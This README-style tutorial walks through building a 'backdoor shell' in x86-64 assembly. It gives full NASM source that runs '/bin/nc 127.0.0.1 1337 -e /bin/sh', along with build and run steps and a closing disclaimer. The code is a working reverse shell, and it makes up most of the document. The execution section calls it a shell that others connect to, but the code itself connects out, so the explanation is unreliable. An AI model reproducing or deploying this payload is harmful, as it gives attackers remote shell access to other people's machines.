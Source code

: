 # Backdoor Shell with Netcat - Assembly Project

This project demonstrates the creation of a backdoor shell using `netcat` and x86-64 assembly. The backdoor will open a shell on the target machine that allows remote access through `netcat`.

## Table of Contents

- [Introduction](#introduction)
- [Prerequisites](#prerequisites)
- [Setup and Compilation](#setup-and-compilation)
- [Code Explanation](#code-explanation)
- [Execution](#execution)
- [Disclaimer](#disclaimer)

## Introduction

A backdoor is a method of bypassing normal authentication procedures to gain unauthorized access to a system. In this tutorial, we'll create a backdoor using `netcat` and assembly language. This backdoor will open a shell that can be accessed remotely.

## Prerequisites

To follow along with this tutorial, you'll need:

- Basic knowledge of assembly language
- Familiarity with Linux and terminal commands
- `nasm` assembler and `ld` linker installed on your system
- `netcat` installed on your system

## Setup and Compilation

### Step 1: Install Necessary Tools

If you haven't installed `nasm`, `ld`, and `netcat`, you can do so using the following commands:

```bash
sudo apt-get update
sudo apt-get install nasm
sudo apt-get install binutils
sudo apt-get install netcat
```

### Step 2: Write the Assembly Code
Create a file named backdoor.asm and add the following code to it:

```assembly
section .text
    global _start

_start:
    ; Zero out RDX
    xor     rdx, rdx

    ; Setting up the command for netcat ("/bin/nc")
    mov     rdi, 0x636e2f6e69622fff    ; "/bin/nc" in hexadecimal
    shr     rdi, 8                     ; Shift right by 8 bits to remove the last byte
    push    rdi                        ; Push the command string onto the stack
    mov     rdi, rsp                   ; Move the stack pointer into RDI

    ; Setting up the command to execute ("/bin/sh")
    mov     rcx, 0x68732f6e69622fff    ; "/bin/sh" in hexadecimal
    shr     rcx, 8                     ; Shift right by 8 bits to remove the last byte
    push    rcx                        ; Push the command string onto the stack
    mov     rcx, rsp                   ; Move the stack pointer into RCX

    ; Setting up the argument for netcat ("-e")
    mov     rbx, 0x652dffffffffffff    ; "-e" in hexadecimal
    shr     rbx, 0x30                  ; Shift right by 48 bits to remove the last byte
    push    rbx                        ; Push the argument onto the stack
    mov     rbx, rsp                   ; Move the stack pointer into RBX

    ; Setting up the port number ("1337")
    mov     r10, 0x37333331ffffffff    ; "1337" in hexadecimal
    shr     r10, 0x20                  ; Shift right by 32 bits to remove the last 2 bytes
    push    r10                        ; Push the port number onto the stack
    mov     r10, rsp                   ; Move the stack pointer into R10

    ; Call the function to organize arguments
    jmp     short ip

continuar:
    pop     r9                         ; Pop the IP address into R9
    push    rdx                        ; Push NULL onto the stack
    push    rcx                        ; Push the address of "/bin/sh"
    push    rbx                        ; Push the address of the argument "-e"
    push    r10                        ; Push the address of the port number
    push    r9                         ; Push the address of the IP
    push    rdi                        ; Push the address of "/bin/nc"

    ; Set up execve syscall
    mov     rsi, rsp                   ; Move the stack pointer into RSI
    mov     al, 59                     ; Set syscall number 59 for execve
    syscall                            ; Invoke the syscall

ip:
    call    continuar                  ; Call the function to organize arguments
    db "127.0.0.1"                     ; IP address in string format
```

### Step 3: Assemble and Link
Use nasm to assemble the code and ld to link it:

```bash
nasm -f elf64 -o backdoor.o backdoor.asm
ld -o backdoor backdoor.o
```
This will produce an executable named backdoor.

## Code Explanation
The assembly code sets up and executes the netcat command to open a remote shell. Here's a step-by-step breakdown of the code:

1. Zero out RDX: This initializes rdx to zero.
2. Setting up the command for netcat: The string "/bin/nc" is loaded into rdi and pushed onto the stack.
3. Setting up the command to execute: The string "/bin/sh" is loaded into rcx and pushed onto the stack.
4. Setting up the argument for netcat: The string "-e" is loaded into rbx and pushed onto the stack.
5. Setting up the port number: The string "1337" is loaded into r10 and pushed onto the stack.
6. Organize arguments: The jmp and call instructions are used to push the IP address and other arguments onto the stack in the correct order.
7. Set up execve syscall: The execve syscall is set up and executed, which runs netcat with the specified arguments.

## Execution
To execute the backdoor, run the following command:

```bash
./backdoor
```
This will open a shell that can be accessed remotely. To connect to the shell, use the following netcat command from another machine:

```bash
nc 127.0.0.1 1337
```
Replace 127.0.0.1 with the IP address of the target machine if you are connecting from a different machine.

# Disclaimer
This project is for educational purposes only. Unauthorized use of this code to gain access to computer systems without permission is illegal and unethical. Always obtain proper authorization before conducting any security testing or using backdoor techniques.

**By following this tutorial, you agree to use the information responsibly and ethically.**